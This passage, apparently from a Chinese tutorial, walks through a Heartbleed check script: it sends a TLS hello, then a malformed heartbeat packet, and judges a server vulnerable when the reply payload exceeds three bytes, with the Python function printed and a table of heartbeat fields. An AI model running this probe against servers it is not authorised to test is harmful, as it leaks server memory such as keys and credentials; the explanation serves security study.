 3. 建立握手连接：

		s.send(hello)

4. 握手过程完成后发送构造攻击payload，恶意心跳包：

		sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s, hb)

5. 获取心跳响应，对响应数据进行判断，是否存在心脏出血漏洞，这里的判断逻辑是：
	1. 通过函数`typ, ver, pay = recvmsg(s)`获取响应包的type：类型；version：版本；payload：填充数据
	1. 判断数据包的type类型字段是否为十六进制**\x18**转换为10进制是否为**24**，因为**type类型为\x18为心跳扩展的数据包**
	2. 确定是否为心跳包之后判断后续payload的长度，如果payload的长度大于3的话即为存在心脏出血漏洞，反之则不存在。


			def hit_hb(s, hb):
			    s.send(hb)
			    while True:
			        typ, ver, pay = recvmsg(s)
			        if typ is None:
			            print 'No heartbeat response received, server likely not vulnerable'
			            return False
			
			        if typ == 24:
			            print 'Received heartbeat response:'
			            hexdump(pay)
			            if len(pay) > 3:
			                print 'WARNING: server returned more data than it should - server is vulnerable!'
			            else:
			                print 'Server processed malformed heartbeat, but did not return any extra data.'
			            return True
			
			        if typ == 21:
			            print 'Received alert:'
			            hexdump(pay)
			            print 'Server returned error, likely not vulnerable'
			            return False


**注：**这里说明一下为什么判断payload的长度大于3的话即为存在心脏出血漏洞？

&emsp;&emsp;这里我们需要分析一下心跳包的特征：

**TLS数据包格式**

|心跳包字段|长度|说明|
|------|---|---|
|ContentType|1byte|心跳包类型，IANA组织把type编号定义为24（0x18）|
|ProtocolVersion|2bytes|TLS的版本号，目前主要包括含有心跳扩展的TLS版本：TLSv1.0，TLSv1.1，TLSv1.2|
|length|2bytes|HeartbeatMessage的长度|
|HeartbeatMessageType|1byte|Heartbeat类型 01表示heartbeat_request 02表示heartbeat_response|
|payload_length|2bytes|payload长度|
|payload|payload_length个bytes|payload的具体内容|
|padding|\>=16bytes|padding填充，最少为16个字节|
